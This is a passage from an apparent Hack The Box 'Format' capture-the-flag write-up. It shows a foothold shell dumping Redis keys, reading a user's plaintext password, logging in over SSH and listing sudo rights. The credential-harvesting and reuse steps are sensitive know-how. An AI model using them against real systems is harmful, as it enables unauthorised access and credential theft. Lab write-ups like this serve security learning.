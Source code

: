 Redis command  [Redis Cheat Sheet (lzone.de)](https://lzone.de/cheat-sheet/Redis)
```bash
www-data@format ~$redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> 
redis /var/run/redis/redis.sock> echo "keys *" | redis-cli -s /var/run/redis/redis.sock
(error) ERR wrong number of arguments for 'echo' command
redis /var/run/redis/redis.sock> keys *
 1) "PHPREDIS_SESSION:20hi483jceq8g0t8523r8585pj"
 2) "hacker:sites"
 3) "PHPREDIS_SESSION:aotk6stg7aoh6lsdccsq2qhai6"
 4) "cooper.dooper:sites"
 5) "wml"
 6) "hacker"
 7) "nghiale"
 8) "PHPREDIS_SESSION:d8o1k85mud6l8l0i0hrkadj77c"
 9) "cooper.dooper"
10) "PHPREDIS_SESSION:00111mmhsdjjlnq7stv5g3sooh"
11) "nghiale:sites"
redis /var/run/redis/redis.sock> hgetall cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
redis /var/run/redis/redis.sock>
```
creds: `cooper:zooperdoopercooper` . Login through SSH to get user flag
#### Shell as cooper
```bash
┌─[loc@parrot]─[~/HackTheBox/Medium/Format]
└──╼ $ssh cooper@10.10.11.213
cooper@10.10.11.21 password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64
-----
permitted by applicable law.
cooper@format:~$ id
uid=1000(cooper) gid=1000(cooper) groups=1000(cooper)
```
#### Priv Esc

```bash
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```
